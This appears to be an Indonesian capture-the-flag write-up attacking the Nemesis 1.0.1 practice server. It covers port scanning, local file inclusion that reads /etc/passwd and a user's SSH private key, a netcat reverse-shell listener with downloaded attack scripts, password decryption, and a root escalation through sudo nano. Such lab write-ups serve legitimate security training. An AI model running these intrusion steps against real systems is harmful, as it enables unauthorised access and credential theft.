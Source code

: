 # Laporan Serangan Server Nemesis1.0.1
Ini adalah hasil serangan yang telah dilakukan pada server Nemesis untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : 
	- cara 1
		```
		ip a
		```
	- cara 2
		```
		ifconfig
		```

- scan jaringan
	- nmap 
		```
		nmap -sP <network_id>/<prefix>
		```
	- netdicover 
		```
		netdiscover -i <interface>
		```

- uji koneksi, kali linux dan server Nemesis
	```
	ping <ip_server>
	```

## Scan Port Server dengan NMAP
- nmap : 
	```
	nmap -sC -sV -sS -A -p- -oN outNmapNemesis.txt <ip_server>
	```

**Port** yang terbuka dari server adalah :
- http apache (80)
- http nginx (52845)
- ssh (52846)

## Access HTTP (80) & (52845)
- url
```
http://<ip_server>
```
```
http://<ip_server>:52845
```
- cek contact us pada port (52845)
- uji LFI (local file inclusion) pada form message
- ketikkan perintah
```
/etc/passwd
```
- dan klik tombol send message
- jika muncul alert **Messsage has been saved in a file**, jangan dulu tekan oke, tapi langsung tekan **ctrl + u**
- diarahkan ke halaman **view-source:**
- scroll kebawah maka kelihatan
```
<script>alert("Messsage has been saved in a file")</script>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
...
...
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
thanos:x:1001:1001:Thanos,,,:/home/thanos:/bin/bash
```
- maka username adalah : **thanos**


## Access SSH (52846)
- karena username ditemukan dan terdapat port ssh, serta terdapat vulnerable FLI maka cari key ssh
- ketikkan perintah pada form message
```
/home/thanos/.ssh/id_rsa
```
- klik tombol send message dan ctrl+u
- buat file **key_ssh**
- dan copy private key
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA1H2rDU6AnY2LSnOSLpXxZ7Fb0HPfQQds2SdQzvBH6NNSIuLFsebl
2fAgeirNWD2LHs3C/8jPyy1GRsxFd9U0yF2hO0aRBASSWU+WzLTIeLvaPircn8P1l528cX
...
...
...
KzmgYQleQRM3U3RGpynnimPBzd3NmvpVxBFb3wg/U9rIlrGzzUkwQZRtntox6k3jka8oHd
U5RDT6RIBqdYiiaZAAAADnRoYW5vc0BuZW1lc2lzAQIDBA==
-----END OPENSSH PRIVATE KEY-----

```
- ubah mode dari file **key_ssh**
```
chmod 600 key_ssh
```
- login ssh
```
ssh -i key_ssh thanos@<ip_server> -p 52846
```
- temukan flag1
```
cat flag1.txt
```



## Privilege Escalation
- cek user yang tersedia
```
ls -al /home
```
- access user carlos
```
wget https://raw.githubusercontent.com/Anangprasetya/AttackReport/main/nemesis1.0.1/zipfile.py
```
- sesuaikan ip kali
- buka terminal baru (terminal 2)
```
nc -lvnp 4444
```
- pada terminal 1 (user thanos)
```
cat zipfile.py
```
- tunggu terminal 2 (user carlos)
- mode terminal
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

```
- temukan flag2
```
cat flag2.txt
```
- buka file root
```
cat root.txt
```
- maka terdapat bocoran password : **FUN**
- buka file encrypt
```
cat encrypt.py
```
- temukan password
```
wget https://raw.githubusercontent.com/Anangprasetya/AttackReport/main/nemesis1.0.1/key.py
wget https://raw.githubusercontent.com/Anangprasetya/AttackReport/main/nemesis1.0.1/decrypt.py

python3 key.py
python3 decrypt.py

```
- maka password adalah : **ENCRYPTIONISFUNPASSWORD**
- pada terminal 1 (user thanos)
- login untuk user carlos
```
su carlos
ENCRYPTIONISFUNPASSWORD

```
- uji login root 
```
sudo -l
```
- maka error : **(root) /bin/nano /opt/priv**
- exploit root
```
sudo /bin/nano /opt/priv
```
- setelah nano terbukan tekan **ctrl + R** lalu kemudian **ctrl + X**
- lalu masukkan command pada **command nano**
```
reset; sh 1>&0 2>&0





```
- mode terminal
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

```
- temukan flag3
```
clear
pwd
cd /root
cat root.txt

```